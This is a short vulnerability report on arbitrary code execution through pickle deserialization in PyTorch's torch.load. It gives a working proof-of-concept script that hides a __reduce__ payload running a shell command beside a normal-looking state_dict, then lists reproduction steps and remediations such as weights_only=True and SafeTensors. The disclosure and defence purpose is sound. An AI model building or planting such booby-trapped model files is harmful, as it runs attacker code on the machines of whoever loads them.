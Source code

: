 ```python
# Create malicious PyTorch model with embedded payload
import torch
import pickle
import subprocess
import os

class MaliciousModel:
    def __reduce__(self):
        # This will execute when the pickle is loaded
        return (subprocess.call, (['whoami'], ))

# Create a legitimate-looking model structure
model_data = {
    'state_dict': {'layer1.weight': torch.randn(10, 5)},
    'model_config': {'input_size': 5, 'output_size': 10},
    'malicious_payload': MaliciousModel()
}

# Save the malicious model
torch.save(model_data, 'malicious_model.pth')

print("Malicious model created: malicious_model.pth")

# Demonstrate the vulnerability
print("Loading model (this will trigger code execution):")
loaded_model = torch.load('malicious_model.pth')
```

#### 🔬 STEPS TO REPRODUCE

1. Install PyTorch 2.2.2 in test environment
2. Create the malicious model file using the PoC code
3. Attempt to load the model using torch.load()
4. Observe command execution during model loading
5. Verify that arbitrary code was executed with current user privileges
6. Test with different model formats (.pt, .pth, .pkl)

#### 📊 EVIDENCE

• Command execution output during torch.load() operation
• Process monitoring logs showing spawned processes
• Memory analysis revealing pickle deserialization attack
• File system changes made by executed payload
• Network connections initiated by malicious code

#### 🔧 REMEDIATION

• Use torch.load() with weights_only=True parameter
• Implement model file integrity checking
• Use secure model serialization formats (SafeTensors)
• Validate model sources and implement model signing
• Sandbox model loading operations in isolated environments
